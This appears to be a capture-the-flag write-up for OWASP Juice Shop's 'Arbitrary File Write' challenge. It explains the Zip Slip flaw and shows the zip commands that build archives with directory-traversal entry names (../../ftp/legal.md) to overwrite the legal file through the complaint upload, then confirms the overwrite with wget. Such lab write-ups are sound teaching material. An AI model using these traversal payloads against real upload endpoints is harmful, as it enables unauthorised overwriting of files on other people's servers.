 ## Arbitrary File Write
**Category:** Vulnerable Components

**Difficulty:** 6/6

**Challenge Description:** Overwrite the Legal Information file.

## Approach

### Vulnerable File Uploads

During the previous challenges I only notices two pages, which allow a file upload:

- `/profile` (upload of a profile picture)
- `/#/complain` (upload of a ZIP file with complaints)

Since a image upload is not very promising for arbitrary file write, I decided to focus on the ZIP upload.

### ZIP Slip Vulnerability

Due to some previous CTF challenges, I already knew that a ZIP extraction in the backend can lead to arbitrary fiel write. This is because the archive holds directory traversal filenames (for more information see [Zip Slip Vulnerability](https://security.snyk.io/research/zip-slip-vulnerability)).

### Putting together the right Archive Structure

What we know so far is, that the legal file is located at `/ftp/legal.md`. But we don't know the extraction point of the ZIP archive. Therefor we have to try different archive depths until it replaces the legal file in the ftp endpoint.

Attempt 1:

```
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/zip-slip/output]
└─$ zip evil.zip ../ftp/legal.md .
  adding: ../ftp/legal.md (deflated 2%)
```

This ZIP archive did not overwrite the legal file, time to add another layer.

Attempt 2:

```
┌──(orb1t4l㉿elysium)-[~/…/juice-shop/zip-slip/output/output-layer2]
└─$ zip evil.zip ../../ftp/legal.md .
  adding: ../../ftp/legal.md (deflated 2%)
```

After uploading the second attempt, I instantly got the challenge solved notification, time to verify it by myself.

```
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/zip-slip]
└─$ wget http://192.168.0.1:3000/ftp/legal.md
--2024-10-01 11:41:33--  http://192.168.0.1:3000/ftp/legal.md
Connecting to 192.168.0.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 44 [text/markdown]
Saving to: ‘legal.md’

legal.md            100%[===================>]      44  --.-KB/s    in 0s      

2024-10-01 11:41:33 (5.27 MB/s) - ‘legal.md’ saved [44/44]

                                                                                
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/zip-slip]
└─$ cat legal.md       
This is not the original legal information!
```